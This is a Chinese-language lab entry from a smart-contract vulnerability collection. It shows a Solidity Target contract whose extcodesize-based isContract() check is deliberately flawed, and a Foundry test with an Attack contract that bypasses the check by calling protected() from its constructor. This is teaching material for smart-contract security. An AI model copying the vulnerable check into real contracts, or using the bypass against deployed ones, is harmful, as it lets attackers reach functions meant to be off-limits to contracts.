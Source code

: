 # 绕过 isContract() 验证

[Bypasscontract.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Bypasscontract.sol)  

**名称：** 绕过isContract()验证  

**描述：**   
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过判断是否为智能合约的检测机制。  


**参考：**  
https://www.infuy.com/blog/bypass-contract-size-limitations-in-solidity-risks-and-prevention/  


**Target合约：**  
```solidity
contract Target {
    function isContract(address account) public view returns (bool) {
        // 此方法使用了EVM的‘extcodesize’汇编指令，来检查给定地址处的代码大小
        // 对于在构造过程中的合约，这个方法可能会返回0，因为在构造函数执行的末尾才会存储代码。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```
**如何测试：**  
forge test --contracts src/test/**Bypasscontract.sol**-vvvv  
```solidity
// 测试攻击合约是否可以绕过目标合约检查的函数。
function testBypassContractCheck() public {
    // 在攻击之前记录Target合约的当前状态。 
    // 这通常会返回一个布尔值，指示合约是否已泄露。
    console.log("Before exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 创建攻击合约的新实例，并将Target合约的地址传递给该实例。
    // 这将启动对目标合约的攻击。
    AttackerContract = new Attack(address(TargetContract));

    // 攻击后再次记录目标合约的状态。
    // 如果攻击成功，则状态应与初始状态不同。
    console.log("After exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 记录一条声明，表明漏洞攻击过程已完成。
    console.log("Exploit completed");
}


// 为攻击Target合约而创建的攻击合约。
contract Attack {
    // 表示当前合约本身是否是一个合约
    bool public isContract;

    // 用于存储当前合约的地址。
    address public addr;

    // 当Attack合约被创建时，构造函数会被触发。
    // 它接受一个目标合约的地址作为参数。
    constructor(address _target) {
        // 调用目标合约的isContract()函数，传递当前合约的地址。
        // 这通常是Target合约中的安全检查，以查看调用方是否为合约。
        // 但是由于这个调用是在构造函数中进行的，isContract()中的extcodesize检查将返回false。
        isContract = Target(_target).isContract(address(this));

        // 将当前合约的地址分配给addr变量。
        addr = address(this);

        // 调用Target合约的protected()函数，该函数可能拒绝合约调用。
        // 然而，由于构造函数中的isContract()检查的漏洞，这次调用实际上是成功的。
        Target(_target).protected();
    }
}
```
**红框：**  
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F273d7caf-d1ec-435a-b60a-ef1dc2698ca1%2FUntitled.png?table=block&id=164fb814-62c9-4308-b378-aba274e06594&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)